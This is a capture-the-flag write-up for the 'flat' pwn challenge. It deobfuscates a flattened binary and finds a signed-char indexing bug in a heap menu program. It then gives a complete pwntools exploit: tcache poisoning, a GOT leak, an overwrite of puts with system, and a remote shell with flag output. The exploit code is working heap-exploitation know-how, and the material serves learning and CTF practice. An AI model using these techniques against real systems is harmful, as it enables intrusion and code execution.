

# flat

Category: `pwn`

Points: `297`

Solves: 27

Description:

> Beat obfuscator.

---

## Part I

The decompilation looks... absolutely disgusting. This is practically a rev chal in disguise. It was only after I got the flag that I learnt that it is a pretty common obfuscation technique... for this challenge I simply went through the control flow manually. Which was actually not as painful as I expected but it definitely took quite a while.

Basically, there is a loop wrapped around a huge `switch` statement.

```c
void __fastcall main(FILE *a1, unsigned __int64 a2, __int64 a3)
{
//   ...
  int i;
//   ...
  for ( i = -24096778; ; i = v25 )
  {
    while ( i != -2137645704 )
    {
      switch ( i )
      {
        case -2133959241:
          i = 285325932;
          break;
        case -2118172594:
          v7 = -2091455880;
          a3 = v44;
          if ( v44 == 48879 )
            v7 = -1232521202;
          i = v7;
          break;
        case -2091455880:
          i = 1833479375;
          break;
        //   ...
        default:
          exit(0);
      }
    }
    v25 = 859922998;
    LOBYTE(a3) = v71;
    if ( v71 )
      v25 = -1833711077;
  }
}
```

The weird `for`-`while` shenanigan is more of a decompilation unglam, but essentially it can be re-parsed into another branch within the `switch` block.

```c
int i = -24096778;
while (1)
{
    switch (i)
    {
    case -2137645704:
        v25 = 859922998;
        LOBYTE(a3) = v71;
        if ( v71 )
            v25 = -1833711077;
        i = v25;
        break;
    case -2133959241:
    // ...
    }
}
```

Given this, the obfuscation is actually pretty straightforward in principle. `i` acts as the pseudo-`rip`, and the code is simply broken into many small chunks that we can piece together.

There is also another function hidden within that essentially also uses the same technique so that is not an issue.

After hours of hard labour here is the result:

```c
void __fastcall main(FILE *a1, unsigned __int64 a2, __int64 a3)
{
    v40 = 1;
    setbuf(stdin, 0LL);
    setbuf(stdout, 0LL);
    a2 = 0LL;
    a1 = stderr;
    setbuf(stderr, 0LL);
_start:
    while ( 1 )
    {
        a3 = read_int();
        if ( a3 == 768 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            v48 = (_DWORD *)((char *)&buf + 16LL * idx);
            if ( *v48 != 0 ) exit(0);
            v50 = (char *)&buf + 16 * idx;
            v51 = (char **)(v50 + 8);
            a3 = (__int64)v51;
            if ( *v51 ) exit(0);
            v52 = read_int();
            v41 = v52;
            v53 = v52 <= 0;
            LOBYTE(a3) = v53;
            if ( v53 ) exit(0);
            if ( v41 > 2048 ) exit(0);
            *v48 = v41;
            size = v41;
            a1 = (FILE *)size;
            v57 = malloc(size);
            v58 = idx;
            *((_QWORD *)&buf + 2 * v58 + 1) = v57;
            a1 = (FILE *)*((_QWORD *)&buf + 2 * idx + 1);
            a2 = *((unsigned int *)&buf + 4 * idx);
            read_str(a1, a2);
        }
        else if ( a3 == 2989 )
        {
            v77 = v40;
            v78 = v77 != 0;
            LOBYTE(a3) = v78;
            if ( !v78 ) exit(0);
            v40 = 0;
            idx = read_int();
            v79 = idx;
            a3 = (unsigned int)v79;
            if ( v79 < 0 ) exit(0);
            v80 = idx;
            v81 = v80 > 31;
            LOBYTE(a3) = v81;
            if ( v81 ) exit(0);
            v82 = idx;
            v83 = (char **)*((_QWORD *)&buf + 2 * v82 + 1);
            a3 = (__int64)v83;
            if ( !v83 ) exit(0);
            v31 = 16LL * idx;
            a3 = *(unsigned int *)((char *)&buf + v31);
            v84 = *(_DWORD *)((char *)&buf + v31);
            if ( v84 == 0 ) exit(0);
            v39 = 0;
            while ( 1 )
            {
                v86 = v39;
                a3 = *((unsigned int *)&buf + 4 * idx);
                a2 = v86;
                LOBYTE(a1) = v86 < (unsigned int)a3;
                v87 = v86 < (unsigned int)a3;
                LOBYTE(a3) = v87;
                if ( !v87 ) goto _start;
                v88 = *((_QWORD *)&buf + 2 * idx + 1);
                a3 = (char)v39;
                a2 = (char)v39 + v88;
                buf2 = (char **)a2;
                a1 = 0LL;
                a2 = (unsigned __int64)buf2;
                read(0, buf2, 1uLL);
                v90 = v39 + 1;
                v39 = v90;
            }
        }
        else if ( a3 == 4112 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            if ( *((_QWORD *)&buf + 2 * idx + 1) == 0 ) exit(0);
            v74 = (char *)&buf + 16LL * idx;
            if (!( *(_DWORD *)(char **)v74 )) exit(0);
            v75 = (FILE *)*((_QWORD *)v74 + 1);
            a2 = *((unsigned int *)&buf + 4 * idx);
            a1 = v75;
            read_str(v75, a2);
        }
        else if ( a3 == 4919 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            v63 = (_QWORD *)&buf + 2 * idx + 1;
            if ( *v63 == 0 ) exit(0);
            a1 = (FILE *)*v63;
            free(a1);
            *v63 = 0LL;
            *(_DWORD *)((char *)&buf + 16LL * idx) = 0;
        }
        else if ( a3 == 48879 ) exit(0);
        else if ( a3 == 57005 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            v94 = (char *)&buf + 16 * idx;
            if ( *((_QWORD *)v94 + 1) == 0LL ) exit(0);
            if (!( *(_DWORD *)(char **)v94 )) exit(0);
            a1 = (FILE *)*((_QWORD *)v94 + 1);
            puts((const char *)a1);
        }
    }
}

__int64 read_int()
{
  memset(s, 0, sizeof(s));
  read_str(s, 15LL);
  return atoi(s);
}

__int64 __fastcall read_str(__int64 a1, int a2)
{
    if ( a2 <= 0 ) exit(0);
    idx = 0;
    while ( idx < a2 - 1 )
    {
        if ( read(0, &cur, 1uLL) <= 0 ) exit(0);
        else if (cur == 10) break;
        *(_BYTE *)(a1 + idx) = cur;
        idx += 1;
    }
    *(_BYTE *)(a1 + (int)idx) = 0;
    return idx;
}
```

Cleaned up further:

```c
void __fastcall main(FILE *a1, unsigned __int64 a2, __int64 a3)
{
    marked = 1;
    setbuf(stdin, 0LL);
    setbuf(stdout, 0LL);
    setbuf(stderr, 0LL);
    while ( 1 )
    {
        a3 = read_int();
        if ( a3 == 768 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            cur = &buf[idx];
            if ( cur->len || cur->str ) exit(0);
            sz = read_int();
            if ( sz <= 0 || sz > 2048 ) exit(0);
            cur->len = sz;
            cur->str = malloc(sz);
            read_str(cur->str, cur->len);
        }
        else if ( a3 == 2989 )
        {
            if ( !marked ) exit(0);
            marked = 0;
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            cur = &buf[idx];
            if ( !cur->len || !cur->str ) exit(0);
            for ( idx2 = 0; idx2 < cur->len; idx2++ )
            {
                read(0, (char *)(cur->str + (char)idx2), 1uLL);
            }
        }
        else if ( a3 == 4112 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            cur = &buf[idx];
            if ( !cur->len || !cur->str ) exit(0);
            read_str(cur->str, cur->len);
        }
        else if ( a3 == 4919 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            cur = &buf[idx];
            if ( cur->str == 0 ) exit(0);
            free(cur->str);
            cur->str = 0LL;
            cur->len = 0;
        }
        else if ( a3 == 48879 ) exit(0);
        else if ( a3 == 57005 )
        {
            idx = read_int();
            if ( idx < 0 || idx > 31 ) exit(0);
            cur = &buf[idx];
            if ( !cur->len || !cur->str ) exit(0);
            puts(cur->str);
        }
    }
}
```

And in usual pwn menu fashion:

```
768   (0x300) : add(idx, sz)
2989  (0xbad) : replace_content(idx) **hack**
4112  (0x1010): edit(idx)
4919  (0x1337): delete(idx)
48879 (0xbeef): exit()
57005 (0xdead): show(idx)
```

The memory layout is as follows. There is a large array of a certain struct in the `.bss` section, with the struct being as follows, taking up `0x10` bytes each:

```
struct entry {
    unsigned int  len;
    char         *str;
}
```

`add` `malloc`s a chunk of our specified size in the heap, while `delete` frees the chunk in a regular fashion.

---

## Part II

If you haven't noticed it already, there is a *very* unnecessary and jarring type cast inside the hack function:

```c
                read(0, (char *)(cur->str + (char)idx2), 1uLL);
```

In particular, `char` is *signed*. When `idx2` exceeds `0x7f` the indexing wraps around and the program starts writing to addresses *before* the current chunk.

Now that we've identified the vulnerability, this actually becomes a really textbook heap challenge.



With that, we've essentially achieved arb read/write, and the rest is pretty straightforward.

```python
from pwn import *

MALLOC_BKPT = 0x402a85
FREE_BKPT   = 0x402c83
PUTS_BKPT   = 0x4034a5
FUNNY_BKPT  = 0x403235

e = context.binary = ELF('./flat_patched')
libc = ELF('./libc-2.31.so')
p = e.process() if not args.REMOTE else remote('chall.geekctf.geekcon.top', 40246)
if args.DBG:
    gdb.attach(p, '\n'.join(f'b *{hex(x)}' for x in [MALLOC_BKPT, FREE_BKPT, PUTS_BKPT]))
    pause()

BUF = 0x4060b0

def malloc(idx, size, content=b''):
    p.sendline(b'768')
    p.sendline(str(idx).encode())
    p.sendline(str(size).encode())
    p.sendline(content)

def hack(idx, content):
    p.sendline(b'2989')
    p.sendline(str(idx).encode())
    p.sendline(content)

def edit(idx, content):
    p.sendline(b'4112')
    p.sendline(str(idx).encode())
    p.sendline(content)

def free(idx):
    p.sendline(b'4919')
    p.sendline(str(idx).encode())

def show(idx, expect=True):
    p.sendline(b'57005')
    p.clean()
    p.sendline(str(idx).encode())
    if expect:
        return p.recvline()

malloc(0, 0x60) # chunk size 0x71
malloc(1, 0x100) # chunk size 0x111
payload = (
     b'A'*0x80
     + b'B'*0x8 # wrap around (char cast)
     + p64(0x111) # fake size
     + b'C'*(0x70-0x8) # fill chunk
     + p64(0x111) # leave top chunk untouched
)
assert len(payload) == 0x100
hack(1, payload)
free(0)
malloc(0, 0x100) # tcache fake chunk with size 0x111

malloc(10, 0x100)
malloc(11, 0x20)
free(10)
free(1)
payload = (
    b'D'*(0x70-0x8) # fill chunk
    + p64(0x111)
    + p64(BUF+0x10*11) # fake chunk addr
    + b'F'*(0x8-0x1)
)
assert len(payload) < 0x100
edit(0, payload)
malloc(1, 0x100)
malloc(2, 0x100) # points to fake chunk on buf

edit(2, p64(0x20) + p64(e.got.puts))
leak = u64(show(11).ljust(0x8, b'\0'))

libc.address = 0
libc.address = leak - libc.sym.puts
log.info(f'Libc: {hex(libc.address)}')

edit(2, p64(0x20) + p64(e.got.puts))
edit(11, p64(libc.sym.system)[:-1])

edit(0, b'/bin/sh')
show(0, expect=False)

p.interactive()
```

```
$ python3 solve.py REMOTE
[*] '[REDACTED]/flat_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '[REDACTED]/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chall.geekctf.geekcon.top on port 40246: Done
[*] Libc: 0xa7f43534fb000
[*] Switching to interactive mode
$ ls
flag
flat
start.sh
$ cat flag
flag{learning_deflat_trick_to_defeat_ollvm}
```
